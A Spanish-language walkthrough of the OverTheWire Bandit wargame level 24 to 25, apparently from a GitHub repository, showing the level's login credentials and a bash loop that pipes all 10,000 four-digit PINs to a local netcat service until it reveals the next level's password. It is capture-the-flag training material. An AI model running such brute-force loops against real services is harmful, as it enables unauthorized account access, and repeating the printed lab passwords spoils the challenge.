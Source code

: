 # Retos Bandit 
# Bandido Nivel 24 → Nivel 25

# Objetivo 
Un demonio está escuchando en el puerto 30002 y le dará la contraseña para Bandit25 si se le da la contraseña de Bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código pin, excepto revisando todos los 10000 combinaciones, llamadas fuerza bruta.  
No es necesario crear nuevas conexiones cada vez

# Datos de acceso al nivel 
bandit24
ssh -l bandit24 bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
# Solución 
 ```
nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ echo {0000..0099}
0000 0001 0002 0003 0004 0005 0006 0007 0008 0009 0010 0011 0012 0013 0014 0015 0016 0017 0018 0019 0020 0021 0022 0023 0024 0025 0026 0027 0028 0029 0030 0031 0032 0033 0034 0035 0036 0037 0038 0039 0040 0041 0042 0043 0044 0045 0046 0047 0048 0049 0050 0051 0052 0053 0054 0055 0056 0057 0058 0059 0060 0061 0062 0063 0064 0065 0066 0067 0068 0069 0070 0071 0072 0073 0074 0075 0076 0077 0078 0079 0080 0081 0082 0083 0084 0085 0086 0087 0088 0089 0090 0091 0092 0093 0094 0095 0096 0097 0098 0099
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
 Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

# Notas 

